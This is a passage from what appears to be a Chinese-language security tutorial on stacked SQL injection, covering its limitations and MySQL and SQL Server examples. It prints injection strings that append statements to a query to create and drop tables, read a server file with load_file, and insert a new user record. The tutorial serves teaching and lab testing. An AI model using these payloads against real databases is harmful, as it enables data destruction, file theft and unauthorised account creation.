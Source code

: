 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811220533906-1304680635.png)

当执行查询后，第一条显示查询信息，第二条则将整个表进行删除。

### 0x02 堆叠注入的局限性

堆叠注入的局限性在于并不是每一个环境下都可以执行，可能受到API或者数据库引擎不支持的限制，当然了权限不足也可以解释为什么攻击者无法修改数据或者调用一些程序。

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811220534984-271396471.png)

Ps：此图是从原文中截取过来的，因为我个人的测试环境是php+mysql，是可以执行的，此处对于mysql/php存在质疑。但个人估计原文作者可能与我的版本的不同的原因。

虽然我们前面提到了堆叠查询可以执行任意的sql语句，但是这种注入方式并不是十分的完美的。在我们的web系统中，因为代码通常只返回一个查询结果，因此，堆叠注入第二个语句产生错误或者结果只能被忽略，我们在前端界面是无法看到返回结果的。

因此，在读取数据时，我们建议使用union（联合）注入。同时在使用堆叠注入之前，我们也是需要知道一些数据库相关信息的，例如表名，列名等信息。

### 0x03 各个数据库实例介绍

本节我们从常用数据库角度出发，介绍几个类型的数据库的相关用法。数据库的基本操作，增删查改。以下列出数据库相关堆叠注入的基本操作。

**Mysql数据库**

**（1）**新建一个表 select \* from users where id=1;create table test like users;

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811220536531-1936838385.png)

执行成功，我们再去看一下是否新建成功表。

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811220538437-1884969952.png)

1.  删除上面新建的test表select \* from users where id=1;drop table test;
    
    ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811220539609-885310354.png)
    
    ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811220541437-1858139281.png)
    
2.  查询数据select \* from users where id=1;select 1,2,3;
    
    ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811220542718-2047461654.png)
    
    加载文件 select \* from users where id=1;select load\_file('c:/tmpupbbn.php');
    
    ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811220544484-1762423717.png)
    
3.  修改数据select \* from users where id=1;insert into users(id,username,password)
    
    values('100','new','new');
    
    ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811220546015-721343428.png)
    
    ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811220547453-2113136530.png)
    
    **Sql server数据库**
    
4.  增加数据表select \* from test;create table sc3(ss CHAR(8));
    